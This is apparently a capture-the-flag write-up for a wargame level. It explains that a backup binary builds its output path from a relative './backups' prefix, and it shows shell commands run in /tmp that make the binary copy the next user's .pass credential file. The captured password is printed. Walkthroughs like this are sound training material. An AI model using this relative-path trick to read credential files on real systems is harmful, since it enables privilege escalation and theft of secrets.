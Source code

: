 The binary does a backup of the file we pass in as a parameter. It concatenates './backups' with the path parameter. \
So the only thing we need to do is create a directory structure matching the path we pass as parameter inside the backups folder. \
As we cannot create files where the binary lives (our home folder), we decided to go to /tmp to do that. \
We can exploit this because it uses relative path to open the files.
```shell
bash$ cd /tmp
bash$ mkdir -p backups/home/users/level09
bash$ ~/level08 /home/users/level09/.pass
bash$ cat ./backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

